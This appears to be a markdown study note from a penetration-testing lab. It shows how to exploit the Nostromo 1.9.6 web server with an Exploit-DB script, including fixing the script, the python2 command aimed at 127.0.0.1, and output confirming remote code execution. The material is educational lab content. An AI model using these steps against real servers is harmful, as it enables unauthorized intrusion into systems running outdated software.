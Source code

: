 ## 🔑 Quick Recap
- Old software = dangerous because **known exploits already exist**.  
- Our main job = **find the software name + version → search for exploit**.  
- Most of the hard work is already done by researchers, we just need to use it.

---

## ⚡ Example: Nostromo Web Server

### Step 1: Find Software & Version
We discover the server is running:
Nostromo 1.9.6

---

### Step 2: Search Exploit on Exploit-DB
- Go to **Exploit-DB**  
- Search: `Nostromo 1.9.6`  
- ✅ Top result = ready-made exploit script.

---

### Step 3: Run the Exploit Script
Command:
python 47837.py

❌ Error appears:
Traceback (most recent call last):
File "47837.py", line 10, in <module>
cve2019_16278.py
NameError: name 'cve2019_16278' is not defined

---

### Step 4: Fix the Script
Problem: One line in the script was wrong.  
Solution: Comment it out.

```python
# cve2019_16278.py  # This line should be commented
```
### Step 5: Run Again (Correctly)
Command:
```
python2 47837.py 127.0.0.1 80 id
```
Output:
```
HTTP/1.1 200 OK
Server: nostromo 1.9.6
uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```
🎉 Boom → We got Remote Code Execution (RCE).
## 📊 Key Lessons
- Step	What Happened	Lesson Learned
- Find version	Nostromo 1.9.6 found	Version info is enough to start research
- -Search Exploit	Found on Exploit-DB	Many exploits already exist
- Run Script	Initial error	Exploits may need fixing
- Fix Script	Commented bad line	Know basics of language (Python)
- Success	Got RCE	Outdated software = full compromise
## ✅ Important Notes